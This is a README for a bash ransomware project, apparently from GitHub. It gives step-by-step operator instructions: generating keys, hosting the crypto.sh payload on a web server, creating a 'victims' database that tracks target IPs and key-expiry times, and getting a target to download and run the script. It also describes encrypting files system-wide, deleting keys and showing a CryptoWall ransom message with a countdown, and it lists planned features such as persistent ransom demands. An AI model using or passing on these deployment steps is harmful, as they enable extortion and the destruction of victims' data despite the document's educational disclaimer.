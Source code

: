 # Bash Ransomware

## Requirements
 - openssl
 - jquery
 - mysql
 - php 5 (php5-mysql)

## What to do on the server-side
 - $ openssl genrsa -out priv.pem 4096
 - $ openssl rsa -pubout -in priv.pem -out pub.pem
 - $ cat /dev/urandom | tr -cd 'A-Za-z0-9' | fold -w 4096 | head -n 1 > key.bin
 - $ mkdir -p /var/www/html/downloads
 - > Modify crypto.sh to reflect your web server address or IP
 - $ cp crypto.sh /var/www/html/downloads/
 - $ cp pub.pem /var/www/html/downloads/
 - $ cp key.bin /var/www/html/downloads/
 - $ python -m SimplHTTPServer 8080 &
 - $ mv dec_auth.php /var/www/html/
 - $ mv target.php /var/www/html/
 - $ mv query.php /var/www/html/
 - > Modify decrypt.php, query.php, and target.php with your database information (Plan to create one file that can be referenced in each)
 - > Next, create the database for storing the data
 - $ mysql -u [user] -p
 - $ create database victims;
 - $ use victims;
 - $ create table target_list (id int(6) unsigned auto_increment primary key, unique_id varchar(16) not null, target_ip varchar(30), curr_time timestamp not null, exp_time timestamp not null, time_expired bool not null);
 - $ exit

## What to do on the client-side
 - Get target to download the file and execute or if you have have access to the system, download it directly
 - $ chmod 755 crypto.sh
 - $ ./crypto.sh &

## What it does
 - Downloads the public key and key file to the target
 - Loops through the system and encrypts the various files
 - Deletes the key file and leaves the public key
 - Prints the ransom message
 - Links to web pages where the user can see an active countdown of the time that is left before key deletion

## TODO
 - Add in error handling for non-existing files
 - Imporve functionality and capabilities
 - Add persistent ransom demand
 - Unique key pair per victim (In work)
 - Add Screenshots
 - Make ransom message on web page prettier 
 - Create information text file or html file in each directory

## Acknowledgements/Contributors
  - Special thanks to zmallen and his lollocker (https://github.com/zmallen/lollocker)
  - lollocker served as the inspiration for this project
  - CryptoWall message text used came from https://www.pcrisk.com/removal-guides/7844-cryptowall-virus

## WARNING 
  - Use this tool at your own risk. Author is not responsible or liable if you damage your own system or others. Follow all local, state, federal, and international laws as it pertains to your geographic location. Do NOT use this tool maliciously as it is being released for educational purposes for use in cyber exercises or demonstrations of adversarial tools.
